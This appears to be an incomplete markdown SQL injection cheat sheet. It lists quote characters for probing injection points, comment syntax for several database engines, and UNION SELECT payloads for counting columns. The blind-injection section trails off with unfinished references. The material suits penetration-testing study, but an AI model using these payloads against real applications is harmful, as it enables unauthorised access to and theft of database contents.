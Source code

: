 # SQLi

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
> If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get databases**:




## Blind SQLi
If you cant see the output of your SQL query then this is the way to go ╰(*°▽°*)╯


**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out